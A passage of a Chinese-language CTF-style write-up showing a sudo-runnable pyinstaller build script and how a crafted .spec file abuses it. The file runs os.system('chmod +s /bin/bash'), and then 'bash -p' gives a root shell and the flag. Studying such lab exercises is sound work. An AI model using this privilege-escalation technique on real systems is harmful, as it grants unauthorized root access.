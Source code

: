 ```shell
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /home/svc/.local/bin/pyinstaller $name
    /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'make' ]]; then
  if [[ $ext == 'py' ]] ; then
    /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
    /root/.local/bin/pyinstaller -F --name "qreader" $name --specpath /tmp
   /usr/bin/mv ./dist ./build /opt/shared
  else
    echo "Invalid file format"
    exit 1;
  fi
elif [[ $action == 'cleanup' ]]; then
  /usr/bin/rm -r ./build ./dist 2>/dev/null
  /usr/bin/rm -r /opt/shared/build /opt/shared/dist 2>/dev/null
  /usr/bin/rm /tmp/qreader* 2>/dev/null
else
  /usr/bin/echo 'Invalid action'
  exit 1;
fi

```
可以发现这个脚本有3个功能,`spec make build`，这里我问了问newbing
![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1680624676026-b8a3d554-cbbb-4378-ad7d-24942a151245.png#averageHue=%23e6ecf9&clientId=u8b12b25a-26d3-4&from=paste&height=224&id=ufbc79552&name=image.png&originHeight=280&originWidth=1021&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=90129&status=done&style=none&taskId=ua257eaac-753c-4f10-a425-e7538076a7f&title=&width=816.8)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1680624749824-542eac01-3aa0-4db5-9890-b1c1efa2a742.png#averageHue=%23e4ebf9&clientId=u8b12b25a-26d3-4&from=paste&height=170&id=u2668b857&name=image.png&originHeight=212&originWidth=1250&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=70651&status=done&style=none&taskId=u05c3015b-228e-4ed2-aac5-f50965dd9be&title=&width=1000)
然后我们通过询问，发现执行这2个命令时，我执行我们文件里的代码！
![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1680624819033-83543e45-21aa-4f88-bc44-6ec6fbeec4cf.png#averageHue=%23e7edf9&clientId=u8b12b25a-26d3-4&from=paste&height=154&id=u8c7cb803&name=image.png&originHeight=192&originWidth=913&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=61444&status=done&style=none&taskId=u2e2ef443-7c89-4e6e-b7df-1fba348541e&title=&width=730.4)
那也就是说这也是一种另类的suid，我们可以给bash或者其他的指令添加suid权限
```shell
echo import os
os.system('chmod +s /bin/bash') >> 1.spec
```
`sudo /usr/local/sbin/build-installer.sh build 1.spec`
运行过后就可以发现有suid权限了
![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1680624903085-de703092-40b7-46fd-b542-7aedb4a9f6fb.png#averageHue=%232e353a&clientId=u8b12b25a-26d3-4&from=paste&height=38&id=uf4eb4a99&name=image.png&originHeight=48&originWidth=489&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=11928&status=done&style=none&taskId=ud3c76929-d06b-4b50-8e68-f8458969bab&title=&width=391.2)
最后就是通过`bash -p`以root权限启动一个bash会话
![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1680624919040-c2271fd7-0ac1-416d-b5a2-007adc146baa.png#averageHue=%23272930&clientId=u8b12b25a-26d3-4&from=paste&height=80&id=u49adb12d&name=image.png&originHeight=100&originWidth=451&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=15592&status=done&style=none&taskId=u9dba3d4f-2181-4a2a-bfdd-965e032fa3d&title=&width=360.8)
然后读取flag就好啦!
![image.png](https://cdn.nlark.com/yuque/0/2023/png/32634994/1680624963087-421510a6-cb2c-4309-ad06-1e5607dc3e80.png#averageHue=%236d6e70&clientId=u8b12b25a-26d3-4&from=paste&height=86&id=u3b467b32&name=image.png&originHeight=108&originWidth=477&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=17609&status=done&style=none&taskId=u7f2a7499-8fce-4ea0-a1eb-2ea0ab9e2a1&title=&width=381.6)
